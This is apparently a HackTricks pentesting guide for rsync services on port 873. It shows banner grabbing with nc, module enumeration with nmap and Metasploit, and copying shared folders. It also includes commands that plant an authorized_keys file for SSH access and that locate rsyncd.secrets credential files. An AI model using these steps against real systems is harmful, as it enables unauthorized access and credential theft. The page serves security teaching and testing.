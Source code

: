 # 873 - Pentesting Rsync

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **Basic Information**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File\_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File\_synchronization) [files](https://en.wikipedia.org/wiki/Computer\_file) between a computer and an external hard drive and across [networked](https://en.wikipedia.org/wiki/Computer\_network) [computers](https://en.wikipedia.org/wiki/Computer) by comparing the [modification times](https://en.wikipedia.org/wiki/Timestamping\_\(computing\))and sizes of files.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) It is commonly found on [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating\_system). The rsync algorithm is a type of [delta encoding](https://en.wikipedia.org/wiki/Delta\_encoding), and is used for minimizing network usage. [Zlib](https://en.wikipedia.org/wiki/Zlib) may be used for additional [data compression](https://en.wikipedia.org/wiki/Data\_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) and [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) or [stunnel](https://en.wikipedia.org/wiki/Stunnel) can be used for security.

**Default port:** 873

```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```

## Enumeration

### Banner & Manual communication

```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

### **Enumerating Shared Folders**

**Rsync modules** are recognized as **directory shares** that might be **protected with passwords**. To identify available modules and check if they require passwords, the following commands are used:

```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

Be aware that some shares might not appear in the list, possibly hiding them. Additionally, accessing some shares might be restricted to specific **credentials**, indicated by an **"Access Denied"** message.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Manual Rsync Usage

Upon obtaining a **module list**, actions depend on whether authentication is needed. Without authentication, **listing** and **copying** files from a shared folder to a local directory is achieved through:

```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

This process **recursively transfers files**, preserving their attributes and permissions.

With **credentials**, listing and downloading from a shared folder can be done as follows, where a password prompt will appear:

```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

To **upload content**, such as an _**authorized_keys**_ file for access, use:

```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```

## POST

To locate the rsyncd configuration file, execute:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

Within this file, a _secrets file_ parameter might point to a file containing **usernames and passwords** for rsyncd authentication.


## References
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

